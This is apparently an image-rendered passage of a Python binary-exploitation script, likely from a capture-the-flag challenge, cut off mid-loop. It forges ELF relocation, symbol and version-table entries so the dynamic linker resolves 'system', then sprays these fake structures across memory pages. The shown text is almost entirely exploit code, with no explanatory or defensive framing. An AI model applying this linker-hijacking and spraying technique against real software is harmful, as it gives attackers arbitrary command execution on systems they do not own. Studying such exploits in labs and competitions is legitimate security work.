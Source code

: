 ```python
        self.write(b"\x00" * (0x2000 - (self.tell() % 0x2000)))

    def swrite(self, where, what):
        self.write(f"{where} {what}".encode() + b"\n")

    def write_bytes(self, where, what):
        for i in range(len(what)):
            self.swrite(where + i, what[i])


buf = Buffer()

ret_addr = 0x38
main_addr = ret_addr + 0x10
maximum_heap_offset = 0x2000000

payload_offset = (
    maximum_heap_offset + 0x5000 + 0xBA8
)  # offset from start of binary space
assert (payload_offset - bin.dynamic_value_by_tag("DT_JMPREL")) % 0x18 == 0

plt_idx = (
    payload_offset - bin.dynamic_value_by_tag("DT_JMPREL")
) // 0x18  # offset from start of binary space
symtab_idx = (
    payload_offset + 0x18 - bin.dynamic_value_by_tag("DT_SYMTAB")
) // 0x18  # offset from start of binary space
ver_idx = (payload_offset + 0x18 - bin.dynamic_value_by_tag("DT_VERSYM")) // 0x2


strtab_idx = (
    payload_offset + 0x18 * 2 + 0x8 - bin.dynamic_value_by_tag("DT_STRTAB")
)  # offset from start of binary space


fake_symtab_entry = (
    p32(0x17) + p8(10) + p8(1) + p16(0) + p64(bin.symbols["main"]) + p64(0)
) + (p32(strtab_idx) + p8(10) + p8(0) + p16(0) + p64(0xDEADBEEF) + p64(0))
fake_reloc_entry = (p64(0x4018) + p32(7) + p32(ver_idx) + p64(0)) + (
    p64(0x4018) + p32(7) + p32(ver_idx + 1) + p64(0)
)
fake_vertab_entry = p64(0x03) + b"system\x00"
payload = fake_reloc_entry + fake_vertab_entry


for i in range(maximum_heap_offset // 0x2000 * 0xC):
    # write payload at offsets
    # reloc_symtab_offset = 0x908
    symtab_offset = 0x908 + 0xF0
    reloc_symtab_offset = 0x908
    payload_offsets = sorted(
        [
            ((reloc_symtab_offset - i * 0x10) % 0x2000, payload),
            ((reloc_symtab_offset + 0x1000 - i * 0x10) % 0x2000, payload),
            ((symtab_offset - i * 0x10) % 0x2000, fake_symtab_entry),
            ((symtab_offset + 0x1000 - i * 0x10) % 0x2000, fake_symtab_entry),
        ],
        key=lambda x: x[0],
    )

    spray_buf = Buffer()
    spray_buf.truncate(0x2000)
    for offset, dat in payload_offsets:
```